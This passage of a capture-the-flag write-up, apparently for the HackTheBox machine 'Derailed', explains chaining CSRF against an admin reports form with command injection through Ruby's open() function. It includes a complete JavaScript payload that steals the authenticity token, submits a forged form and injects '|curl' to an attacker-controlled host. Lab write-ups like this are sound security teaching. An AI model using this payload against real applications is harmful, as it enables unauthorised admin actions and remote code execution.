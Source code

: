 ```markup
```

### CSRF RCE

When analysing the contents of this, there is one form that is available on the page:

```markup
<h3>Reports</h3>
      <form method="post" action="/administration/reports">
        <input type="hidden" name="authenticity_token" id="authenticity_token" value="3FpuEfe4p4sG0ARCAsi_6afj9qw6kZqL55PSTA4ZP1fg-PBh8YwTP0mVaVR64oj1G9DpuBxHOf5nYlszrWwFlg" autocomplete="off" />
        <input type="text" class="form-control" name="report_log" value="report_14_12_2022.log" hidden>
        <label class="pt-4"> 14.12.2022</label>
        <button name="button" type="submit">
          <i class="fas fa-download me-2"></i>
          Download
        </button>
      </form>
```

This form seems to download something and it has a value that is fixed. Since this is a POST request, we need to use CSRF to make the administrator send a request. The `value` parameter looked rather suspicious because it seems exploitable to an LFI.

So when doing CSRF, our payload would first need to do this:

* Retrieve the authenticity\_token value because we need that to verify we are indeed the administrator
* Send the POST request with an edited `report_log` value.
* Have a small delay to ensure that the page would load fully before attempting to find the elements required. I set the delay to 3 seconds.

I did some research around Ruby vulnerabilities, and found a few good articles:

{% embed url="https://bishopfox.com/blog/ruby-vulnerabilities-exploits" %}

Potentially, this form might be using the `open` function, which is vulnerable to RCE because of a deserialization exploit. I wanted to test this first. As such, I created this quick script:

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://derailed.htb:3000/administration", true);
xmlHttp.send( null );

setTimeout(function() {
    var doc = new DOMParser().parseFromString(xmlHttp.responseText, 'text/html');
    var token = doc.getElementById('authenticity_token').value;
    var newForm = new DOMParser().parseFromString('<form id="badform" method="post" action="/administration/reports">    <input type="hidden" name="authenticity_token" id="authenticity_token" value="placeholder" autocomplete="off">    <input id="report_log" type="text" class="form-control" name="report_log" value="placeholder" hidden="">    <button name="button" type="submit">Submit</button>', 'text/html');
    document.body.append(newForm.forms.badform);
    document.getElementById('badform').elements.report_log.value = '|curl http://10.10.14.29/rcecfmed';
    document.getElementById('badform').elements.authenticity_token.value = token;
    document.getElementById('badform').submit();
}, 3000);
```
